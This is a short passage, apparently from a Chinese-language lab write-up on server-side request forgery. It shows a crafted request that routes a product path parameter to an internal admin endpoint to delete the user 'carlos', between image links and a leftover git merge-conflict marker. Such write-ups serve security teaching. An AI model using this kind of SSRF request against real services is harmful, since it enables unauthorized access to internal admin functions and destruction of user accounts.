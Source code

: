[![](assets/1710299749-050c7be0d16ba6dd61e1b66225c7ae53.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171228-a6198e2c-e050-1.png)

构造一下删除用户的 URL 请求

```bash
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```

[![](assets/1710299749-5034839bdaa0e69eae9b8313ced79e05.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240312171301-b9c10536-e050-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

## 技巧扩展
